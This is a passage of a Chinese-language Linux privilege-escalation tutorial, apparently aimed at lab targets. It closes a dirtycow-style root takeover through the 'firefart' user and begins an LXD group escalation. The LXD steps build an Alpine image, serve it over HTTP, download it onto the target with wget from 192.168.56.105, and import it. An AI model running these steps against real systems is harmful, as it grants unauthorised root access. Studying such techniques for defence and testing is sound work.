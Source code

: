 回传到靶机上

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmwc7FHYAJfADx0Pcdy4TMWn1921FOYSeniatUe34ZGfpQO8ibYKoGxmJA/640?wx_fmt=png)

su 切换 firefart 用户

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmibzes50ic4HmZ0OVk9fFD5lQIY3yEc2fCJXTv3no6Wr4E0qXAGoX7LPw/640?wx_fmt=png)

发现 firefart 用户是 root 组，至此提权完成。

修复建议：升级内核版本，使用最新版本的 ubuntu。

lxc 提权
------

id 查看用户基本信息，发现在 lxd 用户组，使用 lxd 提权

```
id
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmFvVJHUrcmYicajXd9icbYVibfrgP1SMOZtheAlVIXtVibPHjWzYJEOpL9g/640?wx_fmt=jpeg)

github 构建提权环境

https://github.com/saghul/lxd-alpine-builder

```
sudo ./build-alpine
```

然后回自动生成一个 tar.gz 文件，重命名成 t.tar.gz

```
mv alpine-v3.12-x86_64-20201217_1534.tar.gz t.tar.gz
```

将 t.tar.gz 文件传输到目标主机上面，使用 python 开启 http 服务

```
python -m SimpleHTTPServer 80
```

目标主机使用 wget 下载 t.tar.gz

```
wget http://192.168.56.105/t.tar.gz
```

需要先初始化环境 一切默认

```
lxd init
```

查看一下 image

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhm9qmbZjichZk54mm0hyHqWL9C06scoUUmf7KJakhP3HiaBA7NfkoFItOw/640?wx_fmt=png)

发现没有任何镜像，我们导入一下镜像，然后再次查看。

```
lxc image import ./t.tar.gz --alias dmagicsec
```
